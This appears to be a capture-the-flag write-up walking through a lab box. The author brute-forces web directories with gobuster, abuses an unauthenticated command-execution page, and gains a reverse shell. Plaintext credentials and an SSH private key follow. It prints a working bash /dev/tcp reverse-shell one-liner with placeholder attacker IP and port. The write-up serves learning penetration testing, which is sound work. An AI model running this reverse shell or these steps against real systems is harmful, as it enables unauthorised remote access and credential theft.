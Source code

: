 ## Description

![image](https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png)

## Hands on

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !

![image](https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png)

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files
![image](https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png)
<br/>Note : <br/>

<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

"home.php" 

![image](https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png)

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look like incorrect credentials goes here

![image](https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png)

Moving on , we can check if the machine is linux by using  "uname -a" command

![image](https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png)

and yess , now slap reverse shell command into the input <br/>
![image](https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png)

```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```
<br/>
remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as "www-data" !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png)

<br/>
now we search for the key , key_rey_key seems sus and by trying strings command we found the key
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png)

<br/>
and we are lucky to found the user credentials in plain text inside the "validate.php" code
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png)

switch user to charlie and we got the flag , oh yeah.. you cant switch user here..
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png)

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png)






